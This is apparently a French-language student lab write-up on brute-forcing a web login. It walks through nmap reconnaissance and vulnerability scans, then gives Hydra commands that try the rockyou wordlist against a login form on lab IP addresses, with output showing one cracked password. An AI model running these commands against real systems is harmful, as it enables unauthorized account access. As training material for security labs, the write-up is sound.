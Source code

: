 # Brute force mot de passe   

___

Les étapes :     
**ifconfig** pour avoir le masque sous réseau et en déduire l'IP du réseau   
Scan du réseau pour voir l'ensemble des ports ouverts et des machines connectées avec **nmap IP du réseau**    
Obtenir des infos sur la cible (son adresse IP, ses ports ouverts, les statuts des ports et les services qu'ils utilisent, son adresse mac, son OS)   
avec **nmap -O IP de la machine connectée** et **nmap --script default IP de la machine connectée au réseau**          
Scan des vulnérabilités avec **nmpap -v --script vuln IP de la machine connectée**  
____


![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/27181ac6-8086-46bf-82a4-8e9e939d99f1)

![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/421c9817-c264-406d-91b6-289da34d0a7d)

![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/2fd3b248-1870-4147-9fc5-da17a689d2b6)

![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/03415c7f-de60-4abb-812c-adda0fd781fb)

https://gist.githubusercontent.com/techerbeatrice/8204e406ba94922aba76167b08c2c38e/raw/fad76d1f4dc16377b9ecd98f9f6f52c13e6a4443/gistfile1.txt


![image](https://github.com/techerbeatrice/brute_force_mot_de_passe/assets/138071140/419dbeba-f18e-4c21-9d4c-df2f7cbbadfb)

_____

Le lien php à craquer :    

http://192.168.56.104/login.php?login=admin

_____

Tutoriel commande sur Hydra :    

hydra  -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.104 http-post-form "/login:username=^USER^&password=^PASS^:F=Mot de passe invalide" -V

Comment utiliser hydra sur un formulaire web?
Pour faire du bruteforce avec hydra sur une formulaire web, il faudra utiliser la syntaxe suivante
**hydra -l -P http-post-form "{lien vers la page de connexion}:{les paramètres du formulaire}:F={message a rechercher sur la page si la connexion échoue}"**

Dans notre cas l’adresse de la cible est http://192.168.56.104/login, le message d’erreut est “Mot de passe invalide”, et enfin les paramètres de la requête que nous avons pu avoir grâce a l’option réseau du web develloper de firefox.


La commande finale donne:

hydra -l molly -P rockyou.txt 10.10.219.212 http-post-form "/login:username=^USER^&password=^PASS^:F=Your password is incorrect" -V. 
Résultat…

[80][http-post-form] host: 10.10.219.212   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found


